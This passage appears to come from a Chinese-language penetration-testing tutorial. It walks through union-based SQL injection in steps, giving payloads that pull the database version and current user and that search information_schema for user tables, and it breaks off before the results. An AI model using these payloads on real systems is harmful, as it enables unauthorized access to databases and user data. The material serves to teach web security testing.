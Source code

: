 ![](img/f904a417-4966-4aab-a834-b41595739ec8.png)

1.  这意味着我们可以在这个联合查询中请求两个值。让我们获取 DBMS 的版本和数据库用户。将`id`设置为`1' union select @@version,current_user() -- '` 然后执行：

![](img/a511ea7a-b70e-4cc1-93bd-1d50c8a22ac8.png)

1.  让我们寻找一些更相关的信息，比如应用程序的用户。首先，我们需要定位用户的表。将`id`设置为`1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '` 并提交，得到以下结果：
